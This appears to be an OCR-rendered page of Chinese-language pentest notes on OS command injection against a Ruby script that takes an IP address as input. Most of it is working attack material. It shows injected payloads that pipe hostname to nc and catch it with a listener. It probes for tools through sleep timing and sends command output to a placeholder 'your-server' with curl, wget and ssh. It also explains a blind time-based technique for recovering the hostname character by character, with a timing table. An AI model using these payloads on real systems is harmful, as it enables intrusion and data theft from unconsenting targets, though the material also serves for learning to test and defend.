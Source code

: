 

```
$ ruby server-online.rb '8.8.8.8 && hostname | nc IP 80' 

yes 
```



```
$ nc -l -n -vv -p 80 -k

 Listening on [0.0.0.0] (family 0, port 81)

 Connection from [1.2.3.4] port 80 [tcp/*] accepted (family 2, sport 64225) 

hacker.local 
```



```
站点工具存在判断验证小方法

curl -h && sleep 5 

wget -h && sleep 5 

ssh -V && sleep 5 

telnet && sleep 5 
```



#### 回显采用数据反弹发送

whoami | curl http://your-server -d @- 

wget http://your-server/$(whoami)

 export C=whoami | ssh user@your-server （在你的服务器上设置用户帐户以进行身份验证无需密码，并记录每个正在执行的命令） 



#### 主机名  命令注入盲猜



**sleep $(hostname | cut -c 1 | tr a 5)** 

1. 我们执行的命令为hostname。我们假设它返回hacker.local。
2. 它需要输出并将其传递给cut -c 1。这将选取hacker.local的第一个字符h。
3. 接着通过tr命令将字符a替换为5。
4. 然后将tr命令的输出传递给sleep命令，sleep h被执行将会立即出现报错，这是因为sleep后跟的参数智能为一个数字。然后，目标使用tr命令迭代字符。执行sleep $(hostname | cut -c 1 | tr h 5)命令，将需要5秒钟的时间。这样我们就可以确定第一个字符是一个h。以此类推，我们就能将完整的主机名猜解出来。



```
命令	时间	结果
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 1 | tr a 5)’	3s	-
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 1 | tr h 5)’	8s	h
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 2 | tr a 5)’	8s	a
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 3 | tr a 5)’	3s	-
ruby server-online.rb ’8.8.8.8;sleep $(hostname | cut -c 3 | tr c 5)’	8s	c
```
